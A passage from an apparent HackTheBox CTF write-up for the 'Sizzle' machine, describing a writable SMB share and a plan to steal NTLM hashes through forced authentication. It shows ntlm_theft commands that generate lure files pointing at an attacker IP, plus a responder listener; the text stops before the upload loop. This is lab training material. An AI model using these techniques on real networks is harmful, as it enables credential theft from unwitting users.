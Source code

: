 
All of the user directories are empty and we can't write to any of them, except two. We can, to the `ZZ_ARCHIVE` and `Public` directories. 


The `ZZ_ARCHIVE` was generally useless, it had a bunch of files which seemed to be filled with null bytes. But writing to the `Users\Public` directory resulted in an interesting behaviour:

![smb-write-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/smb-write-14.png)


We can see that the file was deleted fairly quickly, which tells me that there is probably some sort of script operating on this directory. I'm not sure what it's doing, but it might be doing more then just deleting files. 


At the moment, what we need most are credentials, since it will open up a lot of enumeration/exploit vectors on the domain for us. So our best bet is to try and pish whom ever is running this script, in the hopes of stealing their NTLM hash through forced authentication to an endpoint we control. 


There are many different ways of forcing NTLM authentication, going over each method manuall will take a lot of time. Instead, we can try to automate the process with [ntlm_theft](https://github.com/Greenwolf/ntlm_theft), which will generate a decent amount of files for us, each with a different approach to trigger NTLM authentication. We can then upload the files to the SMB server with a short bash loop, and run `responder` to catch any authentication attempts to our attack machine. 


After downloding `ntlm_theft`, I generate my pishing files into a dedicated directory as such:

```bash
python3 ntlm_theft.py -g all -s 10.10.14.48 -f htb
```

Next, I start `responder`:

```bash
responder -I tun0 -dwv
```

Then, I cd into the `htb` directory, and use this simple bash loop to write all the files to the writable SMB share in bulk:

